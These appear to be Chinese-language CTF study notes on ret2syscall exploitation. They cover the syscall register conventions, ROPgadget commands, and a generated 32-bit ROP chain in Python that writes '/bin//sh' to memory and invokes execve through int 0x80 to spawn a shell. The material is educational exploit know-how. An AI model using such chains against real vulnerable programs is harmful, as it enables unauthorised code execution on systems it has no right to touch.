


# ret2syscall

## 1.系统调用约定

* 32位程序： eax 对应系统调用号， ebx 、ecx 、edx 、esi 、edi 、ebp 分别对应前6个参数。`int 0x80`
* 64位程序： rax 对应系统调用号， rdi 、rsi 、rdx 、r10 、r8  、r9  分别对应前6个参数。`syscall`


## 2.32位



* eax = 0x0b=execute

* ebx = "/bin/sh"

* ecx = 0

* edx = 0

* 等价于execve("/bin/sh",NULL,NULL)函数

* `ROPgadget --binary pwn --only 'int'`

## 3.64位



* rax = 0x3b
* rdi = "/bin/sh"
* rsi = 0x0
* rdx = 0x0
* `ROPgadget --binary pwn | grep 'syscall'`


## 4.tips

tips：可以借助`ROPgadget`的`--ropchain`自动生成rop链条

pad处填充需要填充的字节，接下来就是按照四字节的大小将b'/bin/sh'读入内存中的位置，同时b'/bin/sh'后面还要填充成0

然后ebx赋值成b'/bin/sh'的内存位置，而ecx和edx又正好赋值成b'/bin/sh'后面填充的0，再eax自增

```python
from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de955) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0806cc25) # int 0x80
```


